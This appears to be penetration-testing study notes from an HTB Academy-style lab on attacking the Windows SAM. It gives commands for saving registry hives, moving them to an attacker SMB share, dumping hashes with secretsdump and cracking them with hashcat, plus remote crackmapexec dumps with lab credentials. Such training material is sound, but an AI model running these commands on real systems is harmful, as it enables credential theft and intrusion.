 # Attacking SAM

***

## Copying SAM registry hives

| Registry Hive | Description                                                                                                                             |
| ------------- | --------------------------------------------------------------------------------------------------------------------------------------- |
| hklm\sam      | Contains the hashes associated with local account passwords. We will need the hashes to crack them and get user passwords in cleartext. |
| hklm\system   | Contains the system bootkey, used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.                    |
| hklm\security | Contains cached credentials for domain accounts. Beneficial on a domain-joined Windows target.                                          |

```cmd-session
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save
```

### Create smbserver

```bash
sudo smbserver -smb2support CompData /home/kali/Documents/
```

### Move Hive copies to share

```cmd-session
C:\> move sam.save \\10.10.15.16\CompData
```

## Dump Hashes

Dumping local SAM hashes (uid:rid:lmhash:nthash)

```bash
secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

## Crack Hashes

NT hashes

```bash
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

## Remote Dumping & LSA Secrets

### LSA Secrets

```bash
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```

### SAM

```bash
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```
